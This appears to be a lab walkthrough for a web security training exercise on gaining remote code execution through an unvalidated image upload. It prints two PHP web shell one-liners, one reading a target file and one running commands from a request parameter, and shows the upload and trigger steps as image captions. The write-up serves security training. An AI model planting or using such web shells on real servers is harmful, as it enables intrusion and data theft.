 # Remote code execution via web shell upload
# Objective
This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.\
\
To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.\
\
You can log in to your own account using the following credentials: `wiener:peter`
# Solution
## Analysis
PHP basic one-liners:
```php
<?php echo file_get_contents('/path/to/target/file'); ?>
<?php echo system($_GET['command']); ?>
```
|![](Images/image.png)|
|:--:| 
| *Test* |

## Exploitation
|![](Images/image-1.png)|
|:--:| 
| *PHP code* |
|![](Images/image-2.png)|
| *PHP code upload* |
|![](Images/image-3.png)|
| *Path to uploaded file* |
|![](Images/image-4.png)|
| *Triggering uploaded PHP file* |
